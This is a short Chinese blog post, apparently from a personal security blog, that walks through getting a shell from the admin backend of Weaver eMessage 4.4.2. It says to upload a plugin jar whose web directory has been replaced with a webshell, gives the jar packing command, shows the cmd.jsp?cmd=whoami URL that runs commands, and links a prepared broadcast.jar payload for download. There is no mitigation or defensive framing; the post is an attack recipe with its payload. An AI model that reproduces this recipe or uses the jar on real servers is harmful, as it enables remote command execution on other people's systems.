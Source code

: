 ```yaml
---
layout: post
title:  "2018-10-27-泛微emessage4.4.2后台getshell"
---
```

# 泛微emessage4.4.2后台getshell

* 需登陆后台

漏洞地址：
http://ip:9090/plugin-admin.jsp
![图片1](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/6/1.jpg)<br />
上传的插件可以在http://ip:9090/plugins/插件名/ 访问到
我们使用broadcast这个插件，替换web目录下的内容为我们的webshell
![图片2](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/6/2.jpg)<br />
使用jar -cvfM0 broadcast ./命令打包成jar进行上传
访问http://ip:9090/plugins/broadcast/cmd.jsp?cmd=whoami
![图片3](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/6/3.jpg)<br />


[broadcast.jar](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/6/broadcast.jar)<br />